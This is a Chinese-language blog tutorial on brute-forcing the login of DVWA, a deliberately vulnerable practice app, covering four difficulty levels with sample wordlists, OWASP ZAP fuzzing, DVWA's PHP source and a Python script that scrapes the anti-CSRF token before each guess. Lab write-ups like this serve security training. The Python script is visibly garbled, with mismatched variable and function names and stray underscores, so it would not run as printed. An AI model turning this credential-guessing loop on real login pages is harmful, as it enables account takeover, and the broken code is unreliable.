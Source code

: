```yaml
---
permalink: 2019/04/21/dvwa-brute-force/
tags:
  - 爆破
layout: post
date: '2019-04-21 08:00:00'
categories:
  - web安全
  - DVWA
home_cover: ''
title: DVWA暴力破解(Brute Force)
---
```


暴力破解通常是用手工或者工具的方法对一个网站的登陆页面不断尝试各种用户名和密码的组合，直到能试出正确的一个组合。


DVWA的暴力破解难度等级分为四个 ：

- LOW：这一等级并没有对暴力破解做任何的防护，只需不断尝试即可破解。
- Medium: 这一等级是在LOW的基础上做了一点防护，当用户名和密码输错后会让用户在两秒后才能进行下一步的尝试。
- High:这一等级相比前两个等级有了较大的难度，在每次登陆时会带一个token字段发送到服务器端，服务器端会验证用户名，密码和token是否正确，正确才能登陆。token字段是随机生成的，当不了解使用何种算法生成token时是不能进行暴力破解的。
- Impossible: 这一等级DVWA在连续三次输错用户名和密码后会锁定15分钟，15分钟后才能尝试。这样的设定就无法进行暴力破解了。

## 字典


**暴力破解需要一本好的字典，字典越有针对性，破解过程越快。**
这里我们只是为了演示，就随便做了一个用户名的字典，一个密码的字典，字典内容如下：


用户名字典：


```text
admin
user
admin123
root
root123
administrator

```


密码字典：


```text
123456
root
admin123
password
qwerty
abcd1234

```


## LOW等级暴力破解


low等级的暴力破解比较简单，可以使用手工的方法在登陆页面不断进行尝试，但是这种方法用时会很长，这里我用用到了一款工具ZAP。


> OWASP Zed攻击代理（ZAP）是世界上最受欢迎的免费安全审计工具之一，由数百名国际志愿者积极维护。它可以帮助你在开发和测试应用程序时自动查找Web应用程序中的安全漏洞。  
> 也可以说ZAP是一个中间人代理。它能够获取你对Web应用程序发出的所有请求以及你从中收到的所有响应。


ZAP的安装过程省略，提供一个ZAP的下载地址：[https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)


### 设置浏览器代理


将其设置为ZAP所监听的端口，我设置的ZAP的端口为6666（默认端口为8080）。
所以需要设置浏览器的代理为：127.0.0.1:6666


浏览器端的设置代理的工具有很多，我用的是火狐浏览器，所用代理工具为“simpleProxy”。


![20190421213421.png](../post_images/4308e6d2ffc18e303fbbe761b540899e.png)


设置好代理后，浏览器端的所有请求和响应都会被ZAP所捕捉到。


### 捕捉并分析请求


在DVWA上随便输入一个用户名和密码，点击登陆，然后在ZAP上查看捕捉到的数据包。


![20190421215720.png](../post_images/6cbcaa25c4f48d2cee20b19538fd365b.png)


分析捕获到的请求数据报头，发现报头中会携带用户名和密码发送到服务器端，然后服务器端判断是否正确。此时我们就可以在ZAP上不断修改用户名和密码发送到服务器端，然后根据响应结果判断用户名密码是否正确。
ZAP提供的Fuzzer功能可以按照我们提供的字典修改请求头中的参数重复发送到服务器端。


![20190421220715.png](../post_images/f57e8430223ab17e93bb32aac4069bc9.png)


参数设置好后就可以开始爆破了。


![20190421221327.png](../post_images/1e32a0fe66b44851abd9dade27d010bf.png)


### 分析服务器返回的数据


![20190421222034.png](../post_images/ed45849d37e276107a745b714dc04883.png)


分析数据包发现有一个数据返回的Body大小和其它的都不一样，于是怀疑这条数据是登陆成功后返回的，其它的都是登陆失败后返回的。毕竟正确的用户名和密码只有一个。
于是将此用户名和密码输入到DVWA上发现登陆成功。


![20190421223450.png](../post_images/204ca5a6f6d0e6ce3e22db3e81b41d34.png)


## Medium等级暴力破解


Medium等级的暴力破解和LOW等级的暴力破解方法相同，只不过破解时间会变慢。在DVWA上查看源代码发现，每当输入错误的密码后，就会等待0-3秒才能进行下一次登陆。


```php
if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    } ;

```


此种方法只会延长暴力破解的时间，并不能阻止暴力破解。


## Hight等级暴力破解


和LOW等级一样，我们抓取Hight等级的请求数据包进行观察。


![20190422000439.png](../post_images/2bf368e11fc0e384a7dcb144a040caa7.png)


发现这个请求头比LOW等级的多了一个user_token参数，而且每次请求的user_token参数都是不同的。


_我们必须找出这个usertoken的值是从哪里来的，规律是什么才能进行下一步的暴力破解。
通过观察，我们发现在前端的HTML代码中，登陆框的form表单中有一个隐藏的input。_


![20190422001159.png](../post_images/d7326aa3832bd73f9a76d90622fe4f77.png)


发现每次请求都会带上其中的value值进行发送，不断刷新网页，又发现这个value值是不断变化的。在不知道源码的情况下是无法推算出此value值的计算方法的。


这里我写一段python代码来进行破解，思路大概是每次登陆前先获取HTNL代码中的value值然后放入header头中去请求服务器，直到成功为止。也可以使用burpsuit进行破解，过程请参考：
[https://blog.csdn.net/liweibin812/article/details/86287645](https://blog.csdn.net/liweibin812/article/details/86287645)


代码如下：


```python
_import requests
from bs4 import BeautifulSoup
import sys

#DVWA High等级暴力破解

#获取usertoken值
header={
    'Host': '127.0.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,__/_;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://127.0.0.1/dvwa/vulnerabilities/brute/',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=mtsel2kcb1a4uecf6b7e87aa23',
}

def get_user_token():
    # 获取DVWA登陆页面
    r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header)
    rsp = r.text

    # 获取登陆表单中的value值
    soup = BeautifulSoup(rsp,'lxml')
    input_name = soup.find(attrs={'name':'user__token'})
    value = inputname['value']
    return  value


#读取用户名和密码字典
f1 = open('username.txt','r')
userlist = f1.readlines()
for i in range(0,len(userlist)):
    user__list[i] = user__list[i].rstrip('\n')
f1.close()

f2 = open('password.txt','r')
passlist = f2.readlines()
for i in range(0,len(passlist)):
    pass__list[i] = pass__list[i].rstrip('\n')
f2.close()

# value值即get请求头中的usertoken
# 开始组合请求头并发送到服务器
for username in userlist:
    for password in passlist:
        payload = {'username':username,'password':password,'Login':'Login','user__token':get__usertoken()}
        r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header,params=payload)
        rsp = r.text
        #判断是否登陆成功
        try:
            soup = BeautifulSoup(rsp,'lxml')
            errortext= soup.find(soup.pre.br.string)
            error__text = str(error__text)
            if 'incorrect' in errortext:
                print(username,password+'  '+'错误')
        except AttributeError:
            print(username,password+'  '+'正确')
            sys.exit() #找到正确密码就退出程序，不在往下执行_

```

